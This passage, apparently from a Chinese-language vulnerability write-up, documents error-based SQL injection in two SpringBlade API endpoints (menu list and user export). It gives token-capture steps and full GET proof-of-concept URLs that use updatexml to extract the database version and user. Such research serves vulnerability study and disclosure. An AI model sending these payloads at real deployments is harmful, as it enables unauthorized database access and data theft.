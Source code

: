 

#### /blade-system/menu/list

接口：`/api/blade-system/menu/list`，该接口也是blade-system模块下对**菜单的list**查询。

注入方式也是一样，首先要获取登录后的token，然后在根据网站接口作为切入点利用burp进行拦截，最后对拦截的URL增加SQL的报错注入。

http://localhost:1888/#/system/menu

![image-20241106174456244](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106174456244.png)

![image-20241106093159582](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106093159582.png)

如果能过去到token 可以在浏览器中通过增加blade-auth={token}的方式加上updatexml的方式进行报错注入。

![image-20241106093206012](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106093206012.png)

##### POC：

请求方式：GET

完整POC：

```bash
http://{ip}:{port}/api/blade-system/menu/list?blade-auth={token}&updatexml(1,concat(0x7e,version(),0x7e),1)=1

http://localhost:1888/api/blade-system/menu/list?blade-auth={token}&updatexml(1,concat(0x7e,version(),0x7e),1)=1
```



#### /blade-user/export-user

接口：`/api/blade-user/export-user`，该接口也是blade-user模块下对用户的导出功能。

注入方式也是一样，首先要获取登录后的token，然后在根据网站接口作为切入点利用burp进行拦截，最后对拦截的URL增加SQL的报错注入。

http://localhost:1888/#/system/user

![image-20241106174520714](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106174520714.png)

![image-20241106093256727](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106093256727.png)

如果能过去到token 可以在浏览器中通过增加`blade-auth={token}`的方式加上updatexml的方式进行报错注入。

![image-20241106093309935](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106093309935.png)

##### POC：

请求方式：GET

完整POC：

```bash
http://{ip}:{port}/api/blade-user/export-user?blade-auth={token}&account=&realName=&updatexml(1,concat(0x7e,user(),0x7e),1)=1

http://localhost:1888/api/blade-user/export-user?blade-auth={token}&account=&realName=&updatexml(1,concat(0x7e,user(),0x7e),1)=1
```
